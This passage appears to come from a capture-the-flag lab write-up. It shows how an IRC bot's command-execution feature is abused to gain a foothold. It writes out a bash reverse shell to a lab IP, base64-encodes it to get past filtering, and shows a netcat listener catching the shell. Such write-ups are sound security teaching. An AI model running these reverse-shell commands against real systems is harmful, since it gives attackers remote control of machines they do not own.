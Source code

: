 Looking back at the previously found Tmux session, I attached to it to see what was running.

The Irssi client was running under ```waldo```, and I was able to interact with it.

```
waldo@ubuntu:/home/wallaby/.sopel/modules$ tmux a
```
![image](https://user-images.githubusercontent.com/45502375/197371894-aeb50d04-77a5-415c-8834-874e7d1cdfb2.png)

Running ```/channel list```, I found ```wallabyschat``` running. After that, I ran ```/join wallabyschat``` to connect to it.

From here, I had access to the Sopel bot running that ```run.py``` script.

```
20:25 -!- Irssi: Join to #wallabyschat was synced in 8 secs
20:27 < waldo> .run ls
20:27 <@wallabysbot> b'www '
```

Knowing that, I tried to do some simple reverse connections using Bash, Python, and Netcat. However, it wouldn't work.

```
20:27 < waldo> .run bash -i >& /dev/tcp/192.168.159.128/5555 0>&1
20:27 <@wallabysbot> FileNotFoundError: [Errno 2] No such file or directory: 
                     'bash -i >& /dev/tcp/192.168.159.128/5555 0>&1' (file 
                     "/usr/lib/python3.5/subprocess.py", line 1551, in 
                     _execute_child)
```

I used obfuscation again using base64 encoding just to see if it would work...

```
$ echo "bash -i >& /dev/tcp/192.168.159.128/5555 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1OS4xMjgvNTU1NSAwPiYxCg==
                                                                                                                    
$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1OS4xMjgvNTU1NSAwPiYxCg==" | base64 -d | bash
bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.159.128/5555: Connection refused

```

... and it did.

```
20:30 < waldo> .run echo 
"YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1OS4xMjgvNTU1NSAwPiYxCg==" | base64 -d 
               | bash
```
```
$ sudo nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.180] 37810
bash: cannot set terminal process group (681): Inappropriate ioctl for device
bash: no job control in this shell
wallaby@ubuntu:~$
```
